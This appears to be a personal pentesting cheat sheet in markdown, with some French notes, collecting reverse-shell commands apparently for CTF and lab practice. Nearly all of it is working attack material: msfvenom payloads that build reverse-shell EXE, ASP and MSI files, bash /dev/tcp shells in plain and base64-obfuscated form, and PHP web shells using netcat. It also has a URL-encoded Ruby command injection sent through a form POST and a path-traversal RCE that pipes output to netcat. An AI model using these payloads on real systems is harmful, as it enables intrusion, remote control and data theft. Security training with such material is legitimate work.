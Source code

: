 
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## listener on a local port
```
rlwrap nc -lvnp 1234
```

## msf-ven-om payl-oad
service
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```
ASP  
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
### meter-preter
`msf6 > use exploit/multi/handler `
replace `windows/x64/shell_reverse_tcp` by `windows/mete-rpreter/reverse_tcp`
## _reverse shell from the remote server_
revershel.com

### can encode payload in Base64 
	marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.108 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system('bash -i >& /dev/tcp/10.201.1.201/1234 0>&1');?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```
